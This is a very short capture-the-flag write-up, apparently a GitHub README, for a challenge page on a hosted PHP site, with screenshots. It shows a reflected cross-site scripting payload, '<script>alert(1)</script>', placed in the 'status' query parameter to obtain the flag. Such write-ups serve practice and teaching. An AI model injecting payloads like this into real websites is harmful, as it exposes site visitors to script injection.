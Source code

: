 # ~ Chall 1 | URL 🕵️
![لقطة الشاشة 2022-07-06 040218](https://user-images.githubusercontent.com/108769252/177443255-51abff9a-be00-4a41-b0d2-af04eac58fde.png)
https://rayan-1.000webhostapp.com/chall/1.php?status=Rick (XSS)
?status=<script>alert(1)</script>
# FLAG 🤝
![2022-07-06 041647](https://user-images.githubusercontent.com/108769252/177444457-8e54ebd8-5783-4957-bbb7-8cbf62962354.png)
 
